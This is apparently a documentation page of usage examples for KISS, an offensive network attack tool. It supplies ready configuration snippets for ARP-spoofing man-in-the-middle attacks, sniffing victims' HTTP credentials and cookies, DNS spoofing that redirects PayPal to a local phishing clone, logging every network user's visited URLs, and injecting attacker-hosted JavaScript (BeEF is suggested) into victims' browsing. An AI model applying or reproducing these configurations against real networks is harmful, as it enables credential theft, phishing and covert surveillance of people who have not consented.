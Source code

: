 # Usage examples
Here you will find some attacks and tests you can perform with KISS. Not every possibility is listed, so reading the [Config file](https://klecko.github.io/KISS/pages/config) page is recommeded. Note that most of them use the ARP Spoofing module, as it performs a 
MITM 
attack, giving you full control over the traffic of the victim. If you want more complex or customised actions, you may want to use ARPS with a proxy in order to filter, modify or forward more specific packets. Remember that KISS output is fully customisable with 
the [Verbose file](https://klecko.github.io/KISS/pages/verbose).

## Simple net recon and analysis
Let's perform a simple active and passive analysis in the net, resolving every ip we get so we can know the device name associated with that ip. The NetAnalyzer module config could be something like this:
```
[netanalyzer]
enabled=1
gateway=192.168.1.1
resolve=1
active=1
passive=1
passive_arps_everyone=0
passive_timeout=600
```
We could also use passive_arps_everyone, but I believe this is too aggressive and not always necessary. Remember to set enabled to 0 on every other module.

![Net Analysis Image](../img/1.png)

## Sniffing credentials
For sniffing credentials that our victim sends through an insecure page, we need to use the ARPS module to perform a MITM attack to the victim, and the SNIFFER module to sniff every http packet. An example config could be this:
```
[sniff]
enabled=1
time_limit=
attributes=*
get_every_cookie=0

[arps]
enabled=1
target=192.168.1.187
gateway=192.168.1.1
time_limit=
interval=2
disconnect=0
```
Remember to set enabled to 0 on every other module.

![Sniffing Image](../img/2.png)

## DNS Spoofing
We'll need ARPS and DNS modules. The config could be this:
```
[arps]
enabled=1
target=192.168.191.187
gateway=192.168.191.1
time_limit=
interval=2
disconnect=0

[dns]
enabled=1
file=dns
time_limit=
```
The interesting part is the dns file, while we set which hosts we want to redirect. An examples that redirects example.com to marca.com, wikia.com to pokexperto.net, paypal.es to my local ip (where I have the default Apache server), and ignores every other domain containing paypal would be like this:
```
example.com marca.com
wikia.com pokexperto.net
paypal.es 192.168.191.120
paypal *
```
If we use this attack with phising, we could have PayPal cloned on our local ip, and then steal sensitive information easily.

![DNS Spoofing Image](../img/3.png)

Victim:

![DNS Spoofing Victim Image 1](../img/4.png)
![DNS Spoofing Victim Image 2](../img/5.png)


## URL Stalking
Discovering which domains and URLs visits someone is very easy. We simply must set enabled to 1 in URLStalker, and configure the ARPS module. If we want to perform this attack to the whole network, we can use this:
```
[arps]
enabled=1
target=everyone
gateway=192.168.1.1
time_limit=
interval=2
disconnect=0

[urlstalker]
enabled=1
time_limit=
```

![URL Stalking Image](../img/6.png)

## JS Injecting
This is a very powerful attack. To inject a JS file called `kiss2.js` located in our local server, we could use something like this:
```
[arps]
enabled=1
target=192.168.1.187
gateway=192.168.1.1
time_limit=
interval=2
disconnect=0

[js]
enabled=0
target=192.168.1.187
file=http://192.168.1.120/kiss2.js
time_limit=
```
This file could contain simply an alert, or also a more complex code, like the one provided by BeEF framework, which gives you a lot of control over the victim.

![JS Injecting Image](../img/7.png)

Victim:

![JS Injecting Victim Image](../img/8.png)
